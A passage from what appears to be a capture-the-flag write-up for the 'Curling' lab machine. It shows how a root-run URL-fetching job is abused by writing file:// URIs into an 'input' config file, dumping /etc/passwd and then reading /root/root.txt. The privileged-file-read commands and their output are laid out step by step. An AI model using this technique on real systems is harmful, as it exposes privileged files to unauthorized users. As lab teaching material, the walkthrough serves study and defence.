 ```Shell
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

The output appears to match the content of `report` so we can likely tamper with the URI provided in `input` to try to exfiltrate data. Since we know the service is running locally by the 127.0.0.1 address of the deafult input, and the file we want is local lets try the `file://` scheme URI to grab a local file. Our proof of concept will be `/etc/passwd`. So we can update input to point to the URI `file:///etc/passwd` to create an abuse of file incusion:

```Shell
floris@curling:~/admin-area$ echo 'url = "file:///etc/passwd"' > input
```

However, if we examine the contents of `report` we may notice that the content hasn't changed. Let's keep refreshing our view of `input` and `report` contents using the `watch` command to print their contents every second:

```Shell
floris@curling:~/admin-area$ watch -n 1 'cat input && echo "=== split content ==="  && head report'

url = "http://127.0.0.1"
=== split content ===
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

Which after a minute or so yields the contents of the `/etc/passwd` file. Now let's use our knowledge of where the root flag always exists, `/root/root.txt`, and specify that file using the file URI scheme:

```Shell
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
```

This successfully gets us the root flag. While we did not get remote code execution or a root shell, we were successfuly in exfiltrating privileged sensitive information by abusing the input to specify a URI pointint to a local file.
